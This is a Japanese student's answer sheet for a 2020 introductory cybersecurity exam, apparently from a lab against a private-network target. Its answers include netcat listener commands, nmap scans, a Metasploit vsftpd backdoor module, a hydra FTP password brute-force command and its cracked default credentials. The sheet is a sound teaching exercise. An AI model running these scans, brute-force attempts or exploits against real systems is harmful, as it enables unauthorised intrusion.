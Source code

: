 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
nc -l [port number]

```
### クライアント側コマンド

```sh
nc 192.168.33.5 [port number]

```

## 問2 [Password Crack]

```md


```

## 問3 [Port Scanner]

### 1. ping scan

```sh
nmap 192.168.33.0-127

```

### 2. version scan

```sh
nmap -sV -p- 192.168.33.5

```

## 問4 [Metasploit Framework]

```sh
use exploit/unix/ftp/vsftpd_234_backdoor

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
sudo hydra -L user.list -P passwd.list 192.168.33.5 ftp

```

### 2. 解析結果

```sh
[21][ftp] host: 192.168.33.5  login: msfadmin  password: msfadmin

```

## 問6 [Packet Sniffer]

```sh
tcpdump host 192.168.33.5 and port 80

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
60

```

## 問9 [講義の感想]

```md
授業を受けるごとに成長を実感でき、毎時間とても有意義で楽しかったです。

```
